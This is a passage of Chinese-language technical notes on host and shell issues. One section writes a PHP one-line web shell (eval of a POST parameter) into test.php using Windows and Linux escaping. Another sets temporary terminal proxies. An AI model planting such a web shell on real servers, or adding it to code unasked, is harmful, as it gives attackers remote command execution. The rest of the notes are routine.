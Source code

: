 ```
xxx 2 > error
```
### windows 和 Linux shell的转义符
写一个一句话
```shell
# windows
echo ^<?php @eval(^$_POST['cmd']); ?^> > test.php
# Linux
echo "<?php @eval(\$_POST['cmd']);?>" > test.php
echo \<\?php \@eval\(\$_POST\[\'cmd\'\]\)\;\?\> > test.php
```
![image.png](./主机乱七八糟的问题汇总（持续更新）.assets/2023_05_19_10_23_53_ErVRKZ2B.png)

![image.png](./主机乱七八糟的问题汇总（持续更新）.assets/2023_05_19_10_23_54_JrAkKvFD.png)

![image.png](./主机乱七八糟的问题汇总（持续更新）.assets/2023_05_19_10_23_54_zYctC0XL.png)



### windows、Linux 在终端中如何设置临时代理
临时代理设置如下
#### windows
cmd shell
```shell
set http_proxy=127.0.0.1:10809
set https_proxy=127.0.0.1:10809
```
powershell
```powershell
$env:HTTP_PROXY="127.0.0.1:10809"
$env:HTTPS_PROXY="127.0.0.1:10809"
```
#### Linux
```shell
export http_proxy=127.0.0.1:10809
export https_proxy=127.0.0.1:10809
```